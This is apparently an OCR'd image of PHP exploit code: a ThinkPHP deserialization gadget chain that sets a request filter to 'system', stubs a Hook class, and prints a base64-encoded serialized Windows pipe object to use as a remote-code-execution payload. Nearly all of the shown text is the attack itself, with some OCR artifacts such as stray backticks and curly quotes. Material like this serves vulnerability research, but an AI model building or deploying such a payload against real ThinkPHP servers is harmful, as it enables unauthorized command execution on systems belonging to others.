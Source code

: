 ```
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = new Hook();
        $this->hook = ["append"=>[$this,"isAjax"]];
    } `}

namespace think;

class Hook{

private $tags = [“var_ajax”=>‘a’];

public function get($tag = ‘’)

{

if (empty($tag)) {

//获取全部的插件信息

return $this->tags;

} else {

return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];

}

}

}

use think\process\pipes\Windows;

echo base64_encode(serialize(new Windows()));` 
```
